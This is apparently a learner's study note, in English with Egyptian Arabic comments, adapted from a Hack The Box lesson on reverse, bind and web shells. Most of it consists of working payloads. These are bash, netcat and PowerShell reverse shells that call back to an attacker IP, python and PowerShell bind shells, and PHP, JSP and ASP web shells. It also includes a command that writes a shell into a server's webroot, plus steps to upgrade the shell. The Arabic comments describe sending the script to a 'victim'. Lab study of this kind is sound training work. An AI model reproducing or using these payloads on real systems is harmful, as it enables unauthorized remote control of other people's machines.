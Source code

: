 | Type of Shell   | Method of Communication                                                                                                     |
| --------------- | --------------------------------------------------------------------------------------------------------------------------- |
| `Reverse Shell` | Connects back to our system and gives us control through a reverse connection.                                              |
| `Bind Shell`    | Waits for us to connect to it and gives us control once we do.                                                              |
| `Web Shell`     | Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output. |
## Reverse Shell
A `Reverse Shell` is the most common type of shell, we can start a `netcat` listener on our machine that listens on a specific port, say port `1234`. With this listener in place, we can execute a `reverse shell command` that connects the remote systems shell, i.e., `Bash` or `PowerShell` to our `netcat` listener, which gives us a reverse connection over the remote system
- انا كا هاكر بفتح عندي بورت معين زي مثلا 1234 ولما ببعت الاسكريبت للvictim بكون انا عامل انه يتصل بالport ده فا لما الضحيه يشغل الملف بيبدأ علاطول يتصل بالبورت اللي انا فاتحه اللي هو 1234 ويفتح شيل بيني وبين الضحيه
#### Netcat Listener

The first step is to start a `netcat` listener on a port of our choosing:

```
htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
```

| Flag      | Description                                                                         |
| --------- | ----------------------------------------------------------------------------------- |
| `-l`      | Listen mode, to wait for a connection to connect to us.                             |
| `-v`      | Verbose mode, so that we know when we receive a connection.                         |
| `-n`      | Disable DNS resolution and only connect from/to IPs, to speed up the connection.    |
| `-p 1234` | Port number `netcat` is listening on, and the reverse connection should be sent to. |
دلوقتي ال`netcat` مستنيه الاتصال يجيلها علي البورت اللي انا فاتحه
- خلي بالك لازم فالاسكريبت اللي هيفتحلي الشيل احطله الip بتاع جهازي اللي هيكونكت بيه من جهاز الضحيه فا بعرف الip بتاعي منين؟
من خلال امر `ip a` 
![](Pasted%20image%2020250915215338.png)
#### Reverse Shell Command
- طيب الcommand نفسه اللي ببعته للضحيه بيكون عامل ازاي
حاجه زي كده مثلا
Code: bash
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

Code: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

Code: powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
after the victim open the malicious file netcat look like this
```
htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
A `Reverse Shell` is handy when we want to get a quick, reliable connection to our compromised host. However, a `Reverse Shell` can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access [Reverse Shell Generator](https://www.revshells.com/)

----
## Bind Shell
- الbind shell بقي عكس الreverse انا ببعت malicious script للvictim بفتح فيه بورت معين انا بحددو وانا دوري كا hacker اتصل بالبورت ده
Code: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Code: python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Code: powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
بص انا هنا بقولو افتحلي بورت `1234`
- فا انا هروح للnc واتصل بالبورت ده
#### Netcat Connection

Once we execute the bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it.
We can use `netcat` to connect to that port and get a connection to the shell:

```shell-session
htb[/htb]$ nc 10.10.10.1 1234
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---
### 📝 Upgrading TTY Notes

- بعد ما توصل بـ **Netcat** بيكون الـ shell محدود (مفيش history أو أسهم).
- لازم تعمله upgrade لــ TTY كامل.
#### تشغيل bash داخل TTY

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### إيقاف الجلسة مؤقتًا
- اضغط `Ctrl + Z` عشان ترجع للترمينال المحلي.
#### تعديل إعدادات الطرفية المحلية

```bash
stty raw -echo
```
#### إرجاع الجلسة للخلفية

```bash
fg
```

- اضغط Enter مرتين لو الشاشة سودة.
#### ضبط إعدادات الطرفية داخل السيرفر

- في ترمينال محلي تاني:
    ```bash
    echo $TERM        # نوع الطرفية (غالبًا xterm-256color)
    stty size         # عدد الصفوف والأعمدة
    ```
- في الـ shell البعيد:
    ```bash
    export TERM=xterm-256color
    stty rows 67 columns 318
    ```
    
---
## Web Shell
- The final type of shell we have is a `Web Shell`. A `Web Shell` is typically a web script, i.e., `PHP` or `ASPX`, that accepts our command through HTTP request parameters such as `GET` or `POST` request parameters, executes our command, and prints its output back on the web page
- الweb shell من اسمه معروف هنا الويب ممكن انه ينفذ اوامر وده بيتم من خلال اني برفعلو malicious script برضو 
#### Writing a Web Shell
Code: php

```php
<?php system($_REQUEST["cmd"]); ?>
```

Code: jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

Code: asp

```asp
<% eval request("cmd") %>
```
#### Uploading a Web Shell
- This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. `shell.php` and upload it, and then access our uploaded file to execute commands

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| `Apache`   | /var/www/html/         |
| `Nginx`    | /usr/local/nginx/html/ |
| `IIS`      | c:\inetpub\wwwroot\    |
| `XAMPP`    | C:\xampp\htdocs\       |
We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a `PHP` shell with the following command:

Code: bash

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```
بعد ما تحط web shell (مثلاً `shell.php`) في الـ webroot:

- تقدر توصله من المتصفح:

    `http://SERVER_IP:PORT/shell.php?cmd=id`
    ➜ يشغّل أمر `id` ويرجع النتيجة.
- أو تستخدم **cURL** من الترمنال:
    `curl http://SERVER_IP:PORT/shell.php?cmd=id`
----
